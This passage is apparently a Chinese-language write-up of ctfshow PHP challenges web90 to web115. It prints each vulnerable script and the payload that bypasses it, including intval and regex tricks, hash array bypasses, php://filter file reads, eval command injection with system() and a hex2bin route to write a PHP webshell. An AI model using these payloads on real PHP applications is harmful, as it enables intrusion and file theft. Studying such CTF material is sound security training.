?num[]=1
```

#### web90

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:06:11
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

设置`$base = 0`能提供一种根据字符串内容自动判断进制来进行转换的灵活方式。

这道题可以利用intval的特性和php强比较的特性

> 当变量是字符串时，`intval()`会尝试将字符串转换为整数。它会从字符串的开头提取数字部分，直到遇到非数字字符为止。


#### web91

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:16:09
# @link: https://ctfer.com

*/

show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```

这题考察的是一个正则表达式的理解和绕过

这两个正则表达式都是用来匹配字符串php的

> ##### `/^php$/im` 的含义
>
> - `^`：表示字符串的开始。
> - `php`：表示匹配字符 `php`。
> - `$`：表示字符串的结束。
> - `i`：表示不区分大小写。
> - `m`：表示多行模式（multi-line）。

要得到flag，我们需要让第一个判断为true，第二个判断为false

而第二个正则表达式与正则表达式一的区别在于他没有进行多行匹配

那我们只需要通过换行符就可以实现绕过

payload:

```
cmd=%oaphp
```

#### web92

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:29:30
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

这题与90题的区别就在于这里进行的是弱类型的比较

在弱类型的比较里面我们不能通过增加字母的方式绕过，如下

```
"123aa" == 123
"123aa" === 123aa
```

我们可以通过其它方法来绕过

如通过intval函数的特性，我们可以通过输入转换成其他进制的4476来进行绕过（前面说过当base=0时会自动进行进制的转换）。

payload：

```
HEX: 0x117c //十进制前面补0x
OCT: 010574 //八进制前面补0
```

或者

官方题解

> intval()函数如果$base为0则$var中存在字母的话遇到字母就停止读取,但是e这个字母比较特殊，可以在PHP中不是科学计数法。所以为了绕过前面的==4476，我们就可以构造 4476e123

#### web93

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:32:58
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

```
preg_match("/[a-z]/i", $num)
```

相比上一题这题增加了一个字母的匹配，让我们不能用上一题e绕过的方法和十六进制绕过的方法

但是八进制绕过依旧是可行的，因为他不包含字母

payload:

```
num=010574
```

#### web94

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:46:19
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

```
!strpos($num, "0")
```

这题增加了一个条件，同时判断也变成了强判定，这里的`strpos()`函数用于查找字符串在另一个字符串中首次出现的位置。

也就是这里我们需要让首位不等于0才能使这个判断为false

##### strops函数绕过：

> 对于strpos()函数，我们可以利用换行进行绕过（%0a）
> payload:?num=%0a010574
> 也可以小数点绕过
> payload：?num=4476.0
> 因为intval()函数只读取整数部分
> 还可以八进制绕过(%20是空格的url编码形式)
> payload：?num=%20010574
> ?num= 010574 // 前面加个空格
> ?num=+010574 
> ?num=+4476.0

我们选用其中一个绕过方法即可

如空格绕过

```
?num=%20010574
```

这题因为用的是强判定也可以用这种方法

```
?num=4476.0
```

这种方法就是使其变为浮点型从而使强判定为false，绕过第一个判定

#### web95

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:53:59
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

这题和上一题的区别就是改为了弱判定

所以上一题的方法二就用不了了，我们用方法一即可

payload:

```
?num=%20010574
```

#### web96

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 19:21:24
# @link: https://ctfer.com

*/


highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
```

我们知道./指的的是当前目录，所以直接用./绕过即可，不影响文件读取

payload:

```
?u=./flag.php
```

or

```
u=/var/www/html/flag.php
?u=php://filter/read=convert.base64-encode/resource=flag.php
```

#### web97

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 19:36:32
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

这是一道md5强比较的题目，绕过姿势挺多

我们可以通过简单的数组绕过

```
a[]=1&b[]=2
```

虽然会报错但是能拿到flag



#### web98

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 21:39:27
# @link: https://ctfer.com

*/

include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```

> [CTFSHOW web入门刷题 web98-112_ctfshow web98-CSDN博客](https://blog.csdn.net/bys617120/article/details/135314637)
>
> 这道题用到了三元运算符
>
> 首先判断是否GET传入了数据，如果传入了则将POST的地址赋值给了GET
>
> 其实就是用POST替换GET
>
> 如果GET存在flag字段的值则会继续替换，最后替换成SERVER
>
> 这里我们只要GET随便传入一个数据让post替换get
>
> 然后post传入 HTTP_FLAG=flag
>
> 这样最后highlight_file就能去显示$flag
>

这道题一开始没看懂代码，看了上面大佬的解释感觉其实也不难


#### web99

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 22:36:12
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    ($_GET['n'], $_POST['content']);
}

?>
```

这道题首先是创建了一个数组，然后通过循环写入数字（范围0~0x36d）


接着对传入的n进行判断，判断其是否在数组中，若存在则以n为名字创建一个文件并写入content的内容

我们需要知道的是：

> 在弱类型中当php字符串和int比较时,字符串会被转换成int，所以 字符串中数字后面的字符串会被忽略。题目中的in_array没有设置type,我们可以输入字符串5.php(此处数字随意，只要在rand(1,0x36d)之间即可),转换之后也就是5,明显是在题目中生成的数组中的

所以我们通过传入content写马后，通过蚁剑连接或者直接命令执行即可得到flag


#### web100

```php
<?php

/*
\# -*- coding: utf-8 -*-
\# @Author: h1xa
\# @Date:  2020-09-16 11:25:09
\# @Last Modified by:  h1xa
\# @Last Modified time: 2020-09-21 22:10:28
\# @link: https://ctfer.com

*/

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
  if(!preg_match("/\;/", $v2)){
    if(preg_match("/\;/", $v3)){
      eval("$v2('ctfshow')$v3");
    }
  }
  
}


?>
```

这题其实就是一道简单的拼接题

```
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
```

这里看起来像是要求v1，v2，v3都为数字，实际上只需v1为数字则会将v1赋给v0，而不会再执行后面的语句

所以我们这里只需要使v1为数字即可

payload:

```
?v1=21&v2=var_dump($ctfshow)/*&v3=*/;
```

或者用命令

```cobol
?v1=1&v2=system('ls')/*&v3=*/;
```



将0x2d更换成-得到flag

#### web101

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-22 00:26:48
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}

?>
```

题目描述:修补100题非预期,替换0x2d

修补了上一题通过直接命令执行或者var_dump打印类的方法

我们可以尝试使用反射类的方法，利用题目给出的`('ctfshow')`来拼接打印类

payload:

```
?v1=1&v2=echo new Reflectionclass&v3=;
```



这道题的flag少了一位，在得到的flag在替换掉0x2d后，再进行爆破即可得到flag

payload:

```python
a = "fa2a169a0x2da0820x2d40f30x2da5cd0x2d65ce0d29b42"
b = a.replace("0x2d","-")
hex = ["1","2","3","4","5","6","7","8","9","a","b","c","d","e"]
for i in hex:
    print("ctfshow{"+b+i+"}")
```

#### web102

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-23 20:59:43

*/


highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}


?>
```

分析一下这段代码

首先这段代码会接收三个参数v1,v2,v3

根据php的特性，当$v2为数字时$v4就会被赋值为1，而与$v3的值无关

所以想要进入判断，我们首先要使v2为数字

接着会通过substr对v2前两段进行截断并赋值给s

下一步就会将v1和s都传入call_user_func函数


**call_user_func函数有什么用呢?**

`call_user_func` 是 PHP 中的一个内置函数，它的主要作用是调用回调函数。

```
function greet($name) {
    return "Hello, $name!";
}

$message = call_user_func('greet', 'John');
echo $message; 
```


我们先不管他怎么利用，接着往下看

最后会调用file_put_contents函数，那思路就很明显了，我们通过写文件来拿到flag

但是我们要将v2这一串数字经过一系列转换后写入文件并执行要怎么做呢？

假如说我们可以将php代码转换成base64后再转换成hex，而得到的hex又刚好为数字，那我们就能实现我们的目标。

**那怎么进行格式转换呢?**

我们可以通过call_user_func函数调用php的内置类hex2bin，将我们传入的v2转换回base64编码，接着在写文件的时候，再通过php伪协议的方式将base64先转换为我们的代码再写入文件。

经过尝试我们可以得到符合条件的代码

```
<?=`cat *`;
base64:PD89YGNhdCAqYDs= (转hex去掉=)
hex:5044383959474E6864434171594473
```

我们需要在hex前面随便加两位数字来绕过截断

payload:

```
v1=hex2bin
v2=665044383959474E6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
```


#### web103

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-23 21:03:24

*/


highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>
```

这题相比上一题多了一个过滤

```
if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
```

继续用上题的方法即可

payload:

```
v1=hex2bin
v2=665044383959474E6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
```

#### web104

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:27:20

*/


highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}


?>
```

使v1=v2即可

```
v1=1
v2=1
```

#### web105

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:34:07

*/

highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?>
```

- 本题考查变量覆盖和`die()`的知识

- `$$a = $$b`可以类似于，将$a的地址指向$b

  所以无论$b怎么改变值，$a的值都会和$b一样

- `die()`函数虽然会终止程序，但同时也会输出括号内的终止提示信息


方法一：

本题利用变量覆盖和`die()`函数的特性

1. 先对get的内容进行覆盖，且不能覆盖error，所以要覆盖suces，即?suces=flag，此时suces=>flag的地址
2. 再对post的内容进行覆盖，且不能将flag直接覆盖，所以只能error=suces，此时error=>flag的地址
3. 此时无论进入哪个`die()`函数，都可以输出`$flag`的值

payload:

```
Get: suces=flag
POST: error=suces
```

方法二：

```
Get: ?suces=flag&flag=
```

先将flag的值赋给suces，再将flag的值赋为空，从而通过判断，输出suces的值


#### web106

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:38:27

*/


highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}


?>
```

我们使用数组绕过即可

```
v1[]=1
v2[]=0
```


#### web107

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 23:24:14

*/


highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }

}


?>
```

parse_str函数:它用于将字符串解析为变量，如果 str 是 URL 传递入的查询字符串（query string），则将它解析为变量并设置到当前作用域（如果提供了 arr 则会设置到该数组里 ）。

```php
<?php
   //parse_str()将查询的字符串解析到变量中
   parse_str("name=Gopal K Verma&age=45");
   
   echo $name."<br>";
   echo $age;
?>
```

其实实际上就是md5弱比较

方法一：随便给一个值给flag，将MD5转换后的值赋给v3

```
v3=1
v1=flag=c4ca4238a0b923820dcc509a6f75849b
```

方法二:数组绕过

```
v3[]=1
v1="flag[]=1"
```


#### web108

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 23:53:55

*/


highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?>
```

题目给出的0x36d为16进制数，十进制为877，需要字母开头或结尾的话为877a，因为是==弱比较，可以等同于877，逆序后为a778,直接读取不行，需要加一个截断%00来绕过正则的判断。

payload

```
GET:?c=a%00778
```


#### web109

考点:php原生类利用

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-29 22:02:34

*/


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```

关于php原生类的利用

https://blog.csdn.net/weixin_54902210/article/details/124689580

payload:

```
v1=Exception&v2=system('cat fl36dg.txt') 
or
v1=Reflectionclass&v2=system('cat fl36dg.txt')
```

其他的原生类也行，比如Error

#### web110

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-29 22:49:10

*/


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```

依旧是对php原生类的利用

但是增加了对v1和v2的过滤，但是它没有过滤字母，考虑用纯字母构造payload

类`FilesystemIterator`可以用来遍历目录，需要一个路径参数

函数`getcwd`可以返回当前工作路径且不需要参数，由此可以构造payload

```
https://fded39f6-0eb1-430b-8f4f-42fd69937aed.challenge.ctf.show?v1=FilesystemIterator&v2=getcwd
```



得到flag的位置,直接访问即可


#### web111

```PHP
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 02:41:40

*/

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
   
}
?>
```

这题是关于变量覆盖的题目

由于

```
if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
```

所有我们可以确定v1的值只能为ctfshow

接下来看getFlag函数

```
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}
```

getFlag函数会将v1的地址指向v2，也就是说会使v1的值等于v2

var_dump则会输出变量的相关信息

那我们只需要使v2的值等于我们要查询的变量就可以读到我们的flag

但是问题来了，我们不知道要查的变量是什么，也不知道是不是在作用域里面

所这里使用超全局变量 $GLOBALS，$GLOBALS 是PHP的一个超级全局变量组，包含了全部变量的全局组合数组，变量的名字就是数组的键。

构造payload把所有全局变量全输出来

```
https://feec7abc-68b0-4b95-86bc-1db857e3624a.challenge.ctf.show?v1=ctfshow&v2=GLOBALS
```


#### web112

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 23:47:49

*/

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(!is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这题考察的是php伪协议，虽然被ban了data、input 等伪协议，又ban了 string、data、rot13 相关的过滤器，但是还是有不少能用的伪协议和过滤器

如 php://filter（这里也用不到过滤器）

```
https://c9c112c8-f426-4008-9e05-712cff76e02c.challenge.ctf.show/?file=php://filter/resource=flag.php
```

其他

```
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php
```

**为什么不能直接输入flag.php呢?**

```
if(!is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

那是因为is_file("flag.php")==true，输出hacker！


#### web113

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-30 23:47:52

*/

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这题相比上题把filter过滤了

我们可以考虑使用其他伪协议

如 compress.zlib://

```
compress.zlib://flag.php
```


**官方题解** 目录溢出导致is_file认为这不是一个文件

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```


#### web114

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 15:02:53

*/

error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

这题ban掉了compress和root没办法使用上题的两种解法，但是把filter放出来了

```
php://filter/resource=flag.php
```

直接读就完事了


#### web115

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 15:08:19

*/

include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
}
```

参考文章:[ctfshow学习记录-web入门（php特性109-115&123&125-126）_ctfshow web109-CSDN博客](https://blog.csdn.net/m0_48780534/article/details/125523030)

is_numeric可以在数字前面加空格绕过，同时加上空格也可以绕过$num!='36'

但是我们知道trim函数是移除字符串两侧的空白字符或其他预定义字符，空格等字符是会被去掉的

我们这里考虑使用%0c（换页符）进行绕过

同时使用%0c也可以绕过filter。

接下来再看第二个if判断，这是看起来很矛盾的一个判断。

来具体看一下!==的定义，只要类型不同就不全等。


> 如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换为数值并且比较按照数值来进行。此规则也适用于 switch 语句。当用 === 或 !== 进行比较时则不进行类型转换，因为此时类型和数值都要比对。
> 										——《php手册》语言参考-运算符-比较运算符

也就是说!==时不进行类型转换。

所以加上%0c换页符，在==进行类型转换，所有%0c36会被转换为数值36，结果true；在!==不进行类型转换，所以字符串和数值比较，类型不同，结果true。

payload：

```
?num=%0c36
```


#### web123

```php
<?php

